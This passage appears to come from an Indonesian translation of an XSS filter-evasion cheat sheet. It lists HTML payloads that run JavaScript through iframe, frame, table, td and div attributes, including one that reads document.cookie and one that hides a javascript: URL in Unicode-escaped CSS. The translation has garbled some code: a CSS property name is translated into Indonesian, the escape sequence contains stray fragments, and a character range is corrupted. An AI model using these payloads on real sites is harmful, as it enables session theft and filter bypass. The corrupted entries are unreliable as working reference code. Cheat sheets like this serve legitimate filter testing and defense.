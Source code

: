 ```html
<IFRAME SRC="javascript:alert('XSS');"></IFRAME>
```

### IFRAME Berbasis Peristiwa

IFrame dan sebagian besar elemen lainnya dapat menggunakan kekacauan berbasis peristiwa seperti berikut:

```html
<IFRAME SRC=# onmouseover="alert(document.cookie)"></IFRAME>
```

(Dikirim oleh: David Cross)

### FRAME

Frame memiliki jenis masalah XSS yang sama seperti iFrame

```html
<FRAMESET><FRAME SRC="javascript:alert('XSS');"></FRAMESET>
```

### TABLE

```html
<TABLE BACKGROUND="javascript:alert('XSS')">
```

#### TD

Sama seperti di atas, TD rentan terhadap BACKGROUND yang berisi JavaScript XSS vektor:

```html
<TABLE><TD BACKGROUND="javascript:alert('XSS')">
```

### DIV

#### DIV Gambar latar

```html
<DIV STYLE="gambar latar: url(javascript:alert('XSS'))">
```

#### DIV Gambar latar dengan Eksploitasi Unicode XSS

Ini telah dimodifikasi sedikit untuk mengaburkan parameter URL:

```html
<DIV STYLE="background-image:\0075\0072\006C\0028'\006a\0061\0076\0061\0073\0063\0072\0069\0070\0074\003a\0061\006c\0065\0072\0074\0028.1027\0058.1053\0053\0027\0029'\0029">
```

(Kerentanan asli ditemukan oleh Renaud Lifchitz sebagai kerentanan di Hotmail)

#### DIV Background-image Plus Extra Characters

RSnake membuat fuzzer XSS cepat untuk mendeteksi karakter salah yang diizinkan setelah tanda kurung buka tetapi sebelum perintah JavaScript di IE. Karakter ini dalam bentuk desimal tetapi Anda dapat menyertakan hex dan menambahkan padding tentunya. (Karakter berikut ini dapat digunakan: 1-32, 34, 39, 160, 8192-8.13, 12288, 65279):
